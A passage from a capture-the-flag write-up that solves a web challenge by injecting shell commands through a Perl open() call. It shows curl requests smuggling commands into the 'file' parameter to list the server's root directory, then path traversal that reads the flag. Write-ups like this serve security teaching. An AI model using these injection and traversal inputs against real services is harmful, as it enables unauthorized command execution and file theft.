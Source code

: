 That almost immediately rang a bell: *what if this thing uses Perl `open()` ?*

That would be particularly 'handy' as that function can actually [execute programs](https://stackoverflow.com/questions/27084779/perl-code-pipe-in-open-statement).

```shell
❯ time curl -G 'https://aurora-web.h4ck.ctfcompetition.com/' \
    --data-urlencode 'file=hexdump.txt;sleep 3|' \
    --data-urlencode 'term=auro'

curl -G 'https://aurora-web.h4ck.ctfcompetition.com/' --data-urlencode     0.01s user 0.01s system 0% cpu 3.357 total
```

BINGO :)

How can we exploit this? Just by using some creativity… and, after few trial-error iterations:

```shell
❯ curl -s -G 'https://aurora-web.h4ck.ctfcompetition.com/' \
    --data-urlencode 'file=hexdump.txt;ls -l /|tr "\n" "\0"|xargs -0 -n1 echo "****"|' \
    --data-urlencode 'term=****'
**** total 56
**** lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 bin -> usr/bin
**** drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 boot
**** drwxr-xr-x   5 nobody nogroup  360 Oct 13 08:53 dev
**** drwxr-xr-x  47 nobody nogroup 4096 Aug 18 12:12 etc
**** -rw-r--r--   1 nobody nogroup   52 Aug 18 12:08 flag
**** drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 home
**** lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 lib -> usr/lib
**** lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib32 -> usr/lib32
**** lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib64 -> usr/lib64
**** lrwxrwxrwx   1 nobody nogroup   10 Jul 20  2020 libx32 -> usr/libx32
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 media
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 mnt
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 opt
**** dr-xr-xr-x 639 nobody nogroup    0 Oct 14 21:27 proc
**** drwx------   3 nobody nogroup 4096 Aug 18 12:12 root
**** drwxr-xr-x   8 nobody nogroup 4096 Aug 18 12:12 run
**** lrwxrwxrwx   1 nobody nogroup    8 Jul 20  2020 sbin -> usr/sbin
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 srv
**** drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 sys
**** drwxrwxrwt   2 user   user      40 Oct 14 21:27 tmp
**** drwxr-xr-x  14 nobody nogroup 4096 Aug 18 12:12 usr
**** drwxr-xr-x  11 nobody nogroup 4096 Jul 20  2020 var
**** drwxr-xr-x   1 nobody nogroup 4096 Sep 30 09:00 web-apps
```

Note the 4 asterisks (`****`). These are only useful to make sure each line of the output is matched.

Here is our flag! We can retrieve either with a `cat /flag` or, since we know how it looks like, just by fully leverage the power of our search engine! 🤣

```shell
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=../../flag&term=http'
https://h4ck1ng.google/solve/***REDACTED***
```
